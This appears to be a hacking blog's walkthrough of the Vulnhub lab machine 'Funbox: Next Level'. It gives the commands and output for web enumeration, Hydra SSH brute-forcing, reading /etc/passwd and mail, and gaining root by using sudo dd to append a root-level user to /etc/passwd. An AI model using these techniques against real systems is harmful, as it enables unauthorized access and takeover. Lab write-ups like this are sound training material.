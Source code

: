```yaml
---
layout: post
title:  "Vulnhub - Funbox: Next Level"
date:   2020-10-01 20:00:00 +1000
category: hacking
---
```


## Introduction
*Lets separate the script-kids from script-teenies.  
Hint: The first impression is not always the right one!*

No updates for a few days; I was away for work for a bit and I've been partway through a few things - but now I've completed [Funbox: Next Level](https://www.vulnhub.com/entry/funbox-next-level,547/). Here's how.

## Ports
Not much to say here, we've just got SSH on 22 and HTTP on Port 80. Nmap says Port 80 is Apache; presumably that's where we are looking.

## Drupal; but not really
So gobuster quickly tells us that we've got a *drupal* directory, so that seems like a good place to look. Except when we try to look inside of that 
directory:

``
root@kali:/opt/vulnhub/nextlevel# gobuster dir -u http://192.168.1.92/drupal -w /usr/share/dirb/wordlists/common.txt
``

gobuster gets sad and says:
>(Client.Timeout exceeded while awaiting headers)

Hmm, what's going on? If we visit http://192.168.1.92/drupal in Firefox, we get a message that it is waiting for 192.168.178.33. This is not an IP on my network, so is unreachable - and no wonder gobuster times out. So what is happening? Somehow the server is trying to do a redirect to an IP address that doesn't exist - what do we do?

Fortunately, WFUZZ doesn't care about that:

``
root@kali:/opt/vulnhub/nextlevel# wfuzz -c --hh 274  -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt http://192.168.1.92/drupal/FUZZ.php
``

This brings up a couple of interesting things, including *wp-login*. So are we actually running wordpress? Spoiler alert: yes.

## Wordpress
Normally I'd run wpscan on a wordpress site and frankly this was no exception. But how do we deal with the redirect? There is a switch we can use to ignore it:

``
--ignore-main-redirect
``

Running *wpscan -e* turns up two users; **ben** and **admin**. Also xmlrpc is enabled, so we can try a password attack:

``
root@kali:/opt/vulnhub/nextlevel# wpscan --url http://192.168.1.92/drupal --ignore-main-redirect --force -U 'ben,admin' -P /usr/share/seclists/Passwords/probable-v2-top12000.txt
``

However, it doesn't work. Now what?

## et tu, Bruteforce?
Well, we know one of our usernames, so let's see what Hydra thinks:

{% highlight shell %}
root@kali:/opt/vulnhub/nextlevel# hydra -l ben -P /usr/share/wordlists/rockyou.txt 192.168.1.92 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-30 12:04:02
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344400 login tries (l:1/p:14344400), ~896525 tries per task
[DATA] attacking ssh://192.168.1.92:22/
[STATUS] 177.00 tries/min, 177 tries in 00:01h, 14344224 to do in 1350:41h, 16 active
[22][ssh] host: 192.168.1.92   login: ben   password: REDACTED
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-30 12:06:58
{% endhighlight %}

Boom, we're in. We can *ssh* in as *ben*.

## On the box
On the box, life is still a little difficult. We've got no **head**, **tail** or **cat**. Maybe others too, but that's what I tried and they all didn't work. Which made *linpeas* sad too. Is there a way to get around not being able to read files? Sure:

``
ben@funbox5:/$ python3 -c 'import sys; sys.stdout.write(sys.stdin.read())' < /etc/passwd
``

So that's useful. With it, we can read Ben's mail:

{% highlight shell %}
From maria@funbox5.fritz.box  Mon Aug 31 15:04:50 2020
Return-Path: <maria@funbox5.fritz.box>
Received: from funbox4 (localhost [127.0.0.1])
	by funbox5.fritz.box (8.15.2/8.15.2/Debian-3) with SMTP id 07VD43wQ015008
	for ben@localhost; Mon, 31 Aug 2020 15:04:40 +0200
Date: Mon, 31 Aug 2020 15:04:03 +0200
From: maria@funbox5.fritz.box
Message-Id: <202008311304.07VD43wQ015008@funbox5.fritz.box>
Status: RO
X-UID: 3                                                 

Hi Ben,

please come to my office at 10:00 a.m. We have a lot to talk about!
The new employees must be created. Ive already finished Adam.
CREDS FOR ADAM WERE HERE
{% endhighlight %}

So now we can *su* as Adam.

## Adam
What can Adam do? Adam can use **dd** as root. Also **de** and **df**, whatever they are. Actually de doesn't exist, and I didn't worry about df.

{% highlight shell %}
adam@funbox5:~$ sudo -l
[sudo] password for adam: 
Matching Defaults entries for adam on funbox5:
    env_reset

User adam may run the following commands on funbox5:
    (root) PASSWD: /bin/dd
    (root) PASSWD: /bin/de
    (root) PASSWD: /bin/df
{% endhighlight %}

## Privesc
What can we do with **dd**? [GTFOBins](https://gtfobins.github.io/gtfobins/dd/#sudo) says we can read and write privileged files. So how about we try writing to */etc/passwd*? We essentially want to append a new line. I'll do that by using **dd** to do a read of */etc/passwd* into a temporary file, I'll append a new line to that, and then I'll overwrite the real */etc/passwd* with my copy. Sounds good? Let's see:

{% highlight shell %}
adam@funbox5:/tmp$ sudo -u root /bin/dd if=/etc/passwd > temp
adam@funbox5:/tmp$ python3 -c 'import sys; sys.stdout.write(sys.stdin.read())' < temp
-- SNIPPED - just made sure it worked okay --
adam@funbox5:/tmp$ openssl passwd mrcake
7.wfjKUb48CxM
adam@funbox5:/tmp$ echo "root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash" >> temp
adam@funbox5:/tmp$ INFILE=temp
adam@funbox5:/tmp$ OUTFILE=/etc/passwd
adam@funbox5:/tmp$ sudo -u root /bin/dd if=$INFILE of=$OUTFILE
4+1 records in
4+1 records out
2065 bytes (2.1 kB, 2.0 KiB) copied, 0.000658541 s, 3.1 MB/s
adam@funbox5:/tmp$ su root2
Password: 
root@funbox5:/tmp# cd /root
root@funbox5:~# 
root@funbox5:~# cat flag.txt
ASCII ART CLIPPED

Made with ❤ by @0815R2d2
Please, tweet me a screenshot on Twitter.
THX 4 playing this Funbox.
{% endhighlight %}

Thank you, **0815R2d2**.
